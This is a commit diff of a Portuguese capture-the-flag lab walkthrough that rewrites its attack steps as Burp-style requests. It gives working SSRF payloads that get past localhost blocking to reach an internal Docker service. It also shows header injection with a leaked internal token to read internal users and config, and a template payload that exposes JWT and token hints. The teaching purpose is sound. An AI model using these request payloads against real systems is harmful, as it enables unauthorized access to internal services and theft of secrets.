

Before and after one commit to msrlx0/ctf-labs, a Markdown page: lab-04-sentinelcore/WALKTHROUGH.md, the part around one of its changes. Shown at 80% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
docs: make lab 04 walkthrough browser-first

````diff
--- a/lab-04-sentinelcore/WALKTHROUGH.md
+++ b/lab-04-sentinelcore/WALKTHROUGH.md
@@ -258,4 +339,15 @@ curl -s -H "Authorization: Bearer $ADMIN_TOKEN" \
 ```
+
+3. Envie o body:
+
+```json
+{
+  "url": "http://internal-admin:8081/status"
+}
+```
+
+4. Explique o comportamento: `localhost` e `127.0.0.1` sao bloqueados, mas o nome de servico Docker `internal-admin` funciona dentro da rede interna.
+5. A aplicacao principal faz a requisicao do lado servidor e alcanca um servico que nao esta exposto no host.
 
 Flag:
 
@@ -263,26 +355,31 @@ Flag:
 flag{ssrf_reached_internal_admin}
 ```
 
-Impacto: a aplicacao principal consegue fazer requests para um servico que nao esta exposto no host.
+## 9. Proxy com x-internal-token
 
-## 10. Proxy com x-internal-token
+### Manual com Burp
 
-O manifesto antigo vazou o token interno:
+1. Use o endpoint admin:
 
-```text
-internal-admin-token-7f3a9c21
+```http
+POST /api/v2/integrations/proxy HTTP/1.1
+Host: 127.0.0.1:8094
+Authorization: Bearer <ADMIN_TOKEN>
+Content-Type: application/json
 ```
 
-O endpoint admin `/api/v2/integrations/proxy` aceita headers customizados. Envie `x-internal-token` para consultar o servico interno.
+2. Primeiro consulte usuarios internos:
 
-Usuarios internos:
+```json
+{
+  "url": "http://internal-admin:8081/internal/users",
+  "headers": {
+    "x-internal-token": "internal-admin-token-7f3a9c21"
+  }
+}
+```
 
-```bash
-curl -s -H "Authorization: Bearer $ADMIN_TOKEN" \
-  -H "Content-Type: application/json" \
-  -d '{"url":"http://internal-admin:8081/internal/users","headers":{"x-internal-token":"internal-admin-token-7f3a9c21"}}' \
-  "$BASE/api/v2/integrations/proxy" | jq
-```
+3. Explique a quebra de trust boundary: um cliente externo controla headers que a aplicacao envia para um servico interno.
 
 Flag:
 
@@ -290,13 +387,15 @@ Flag:
 flag{internal_admin_token_accepted}
 ```
 
-Configuracao interna:
+4. Repita para a configuracao interna:
 
-```bash
-curl -s -H "Authorization: Bearer $ADMIN_TOKEN" \
-  -H "Content-Type: application/json" \
-  -d '{"url":"http://internal-admin:8081/internal/config","headers":{"x-internal-token":"internal-admin-token-7f3a9c21"}}' \
-  "$BASE/api/v2/integrations/proxy" | jq
+```json
+{
+  "url": "http://internal-admin:8081/internal/config",
+  "headers": {
+    "x-internal-token": "internal-admin-token-7f3a9c21"
+  }
+}
 ```
 
 Flag:
@@ -305,18 +404,31 @@ Flag:
 flag{internal_config_disclosed}
 ```
 
-O config confirma a fila `sentinel:jobs`, tipos de job e output em `/shared`.
+A configuracao confirma a fila `sentinel:jobs`, tipos de job e output em `/shared`.
 
-## 11. Template context disclosure
+## 10. Template context disclosure
 
-O renderizador de relatorios substitui placeholders simples, mas disponibiliza contexto sensivel.
+### Manual com Burp
 
-```bash
-curl -s -H "Authorization: Bearer $ADMIN_TOKEN" \
-  -H "Content-Type: application/json" \
-  -d '{"title":"debug","template":"user={{user.username}} role={{user.role}} secret={{config.jwt_hint}} internal={{config.internal_token_hint}}"}' \
-  "$BASE/api/v2/reports/render" | jq
+1. Envie:
+
+```http
+POST /api/v2/reports/render HTTP/1.1
+Host: 127.0.0.1:8094
+Authorization: Bearer <ADMIN_TOKEN>
+Content-Type: application/json
 ```
+
+2. Body:
+
+```json
+{
+  "title": "debug",
+  "template": "user={{user.username}} role={{user.role}} secret={{config.jwt_hint}} internal={{config.internal_token_hint}}"
+}
+```
+
+3. Explique que esta etapa nao e RCE. O problema e disclosure de contexto sensivel disponibilizado ao template.
 
 Flag:
 
@@ -324,7 +436,7 @@ Flag:
 flag{template_context_leaked}
 ```
 
-Licao: template context disclosure pode comprometer a cadeia mesmo sem execucao de codigo.
+## 11. Queue poisoning / worker abuse
 
-## 12. Queue poisoning / worker abuse
+### Manual com Burp
 
````
Also changed, not shown: other parts of lab-04-sentinelcore/WALKTHROUGH.md (+339 -184 lines).
